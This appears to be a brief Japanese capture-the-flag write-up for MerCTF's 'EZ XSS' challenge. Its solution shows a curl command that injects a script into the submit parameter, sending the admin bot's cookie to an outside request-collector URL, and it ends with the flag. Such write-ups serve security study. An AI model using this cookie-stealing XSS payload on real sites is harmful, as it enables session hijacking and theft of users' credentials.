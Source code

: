 # EZ XSS:MerCTF:430pts
Let's jump to a client-side challenge for XSS lovers. Just steal the admin (bot) cookie :ganbare:  
**URL:** [http://ezxss.merctf.com/test](http://ezxss.merctf.com/test)  

# Solution
URLにアクセスすると、よくわからないが`/submit?solution=payload`でXSSしろということらしい。  
![site.png](site/site.png)  
以下のようにcookieを取得するXSSを打ち込んでやる(RequestBin.comなどで受信する)。  
```bash
$ curl 'http://ezxss.merctf.com/submit?solution=<script>location.href="https://en43puqb75xk6.x.pipedream.net/?s="%2Bdocument.cookie</script>'
If it is correct, you should receive your flag, right?
```
以下のようなリクエストが届く。  
![cookie.png](images/cookie.png)  
cookieにflagが入っていた。  

## Merctf{GoOd_XsS_GoOd_T1mE_JoIn_MeRcAri}